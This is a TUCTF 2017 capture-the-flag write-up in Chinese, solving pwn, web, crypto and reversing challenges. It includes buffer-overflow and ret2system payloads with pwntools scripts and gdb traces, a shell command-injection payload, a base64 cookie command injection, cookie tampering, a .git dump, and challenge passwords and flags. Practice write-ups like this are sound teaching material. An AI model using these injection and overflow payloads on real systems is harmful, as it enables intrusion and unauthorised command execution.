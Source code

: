 # TUCTF 2017


## vuln chat

第一個`scanf %30s`

可以控到第二個scanf的format string

然後第二個scanf蓋夠長就能直接蓋到main的return address

payload:

`perl -e 'print "A"x20,"%90s\n","A"x49,"\x6B\x85\x04\x08\n"'`

`TUCTF{574ck_5m45h1n6_l1k3_4_pr0}`


## vuln chat 2.0

直接蓋最後兩bytes

跳到print_flag

exp:

```
from pwn import *

r = remote('vulnchat2.tuctf.com', 4242)

r.sendline('aaa')
sleep(1)
r.send('a'*43 + "\x72\x86")

r.interactive()
```

這題比第一題還水...

## guestbook

直接read第6個，可以把一些dest渣渣和system給leak出來 (system在20~24)

然後直接change name去改dest，因為gets可以讀無限長

所以理論上可以直接蓋到return address

但要注意中間有東西會被蓋壞 (strcpy那附近)

跟一下可以發現

這邊應該是index被蓋掉了

蓋回0就行

```
   0x5655597d <main+443>:   call   0x56555550 <gets@plt>
   0x56555982 <main+448>:    add    esp,0x4
   0x56555985 <main+451>: mov    eax,DWORD PTR [ebp-0x34]
=> 0x56555988 <main+454>:  mov    eax,DWORD PTR [ebp+eax*4-0x2c]
   0x5655598c <main+458>:  lea    edx,[ebp-0x98]
   0x56555992 <main+464>:   push   edx
   0x56555993 <main+465>:    push   eax
   0x56555994 <main+466>: call   0x56555570 <strcpy@plt>
```

index的offset的話就是 0x98 - 0x34 = 100

(P.S. 我是從dest[0]去change name)

除了這邊，還有一個地方會爛：

正常：

```
   0x5655598c <main+458>:       lea    edx,[ebp-0x98]
   0x56555992 <main+464>:       push   edx
   0x56555993 <main+465>:       push   eax
=> 0x56555994 <main+466>:       call   0x56555570 <strcpy@plt>
   0x56555999 <main+471>:       add    esp,0x8
   0x5655599c <main+474>:       jmp    0x565559b3 <main+497>
   0x5655599e <main+476>:       mov    BYTE PTR [ebp-0x9],0x0
   0x565559a2 <main+480>:       jmp    0x565559b3 <main+497>
Guessed arguments:
     arg[0]: 0x56558008 --> 0x61 ('a')      <===========  我一開始輸入的第0個是a，現在要去change它
     arg[1]: 0xffffd540 --> 0xffff0078 --> 0x0
```

不正常：

```
   0x5656e98c <main+458>:       lea    edx,[ebp-0x98]
   0x5656e992 <main+464>:       push   edx
   0x5656e993 <main+465>:       push   eax
=> 0x5656e994 <main+466>:       call   0x5656e570 <strcpy@plt>
   0x5656e999 <main+471>:       add    esp,0x8
   0x5656e99c <main+474>:       jmp    0x5656e9b3 <main+497>
   0x5656e99e <main+476>:       mov    BYTE PTR [ebp-0x9],0x0
   0x5656e9a2 <main+480>:       jmp    0x5656e9b3 <main+497>
Guessed arguments:
     arg[0]: 0x0                           <============   這個炸惹
     arg[1]: 0xff9675b0 --> 0x0
```


改用 `r.sendline("\x00"*108 + p32(0xdeadbeef)*1 + p32(0) * 11 + p32(system_addr) + p32(sh) * 2)` 後：

```
Guessed arguments:
     arg[0]: 0xdeadbeef                    <============  108 ~ 112的位置
     arg[1]: 0xffbb7ad0 --> 0x0
```

最後用前面leak出來的渣渣塞回去，讓他不會炸就行惹

`r.sendline("\x00"*108 + p32(data1) * 1 + p32(0xdeadbeef) * 11 + p32(system_addr) + p32(sh) * 2)`

`TUCTF{k33p_17_up_k1d}`

## The nerver ending crypto

大小寫英文+特殊符號的凱薩加密(要繞一圈)

共做50回合


`TUCTF{wh0_w@s_her3_la5t_ye@r?!?}`


## High source

從source code可以找到密碼

view-source:http://highsource.tuctf.com/scripts/login.js

password: `I4m4M4st3rC0d3rH4x0rsB3w43`

`TUCTF{H1gh_S0urc3_3qu4ls_L0ng_F4ll} `


## Cookie Duty 

cookie: `not_admin: 1 -> 0`

`TUCTF{D0nt_Sk1p_C00k13_Duty}`


## Git Gud

dump /.git

`git reset 22f63ceab55efe05c5448676a3470b13b6545f74`

`git diff`

`TUCTF{D0nt_Us3_G1t_0n_Web_S3rv3r}`


## Cookie Harrelson

cookie中可以看到一串base64

decode後發現是cat index.txt

踹踹看送cat flag可以發現前面會加上註解

用\n cat flag就可以繞過 (要先base64，再塞進cookie)

`DQpjYXQgZmxhZw==`


## iframe and shame

Command injection

payload:

`search=https://youtube.com/watch?v=qqqasda";cat flag|head -1; "`

`TUCTF{D0nt_Th1nk_H4x0r$_C4nt_3sc4p3_Y0ur_Pr0t3ct10ns}`

![img](https://github.com/w181496/CTF/blob/master/tuctf-2017/iframe.png)

## Funmail

直接strings或ida pro 找username, password

username = john galt
password = this-password-is-a-secret-to-everyone!

就能登入看flag


## Funmail2.0

直接gdb跑，隨便下個斷點，然後跳過去print_flag

`TUCTF{l0c4l_<_r3m073_3x3cu710n}`

## I'm playing

登入discord即可看到flag


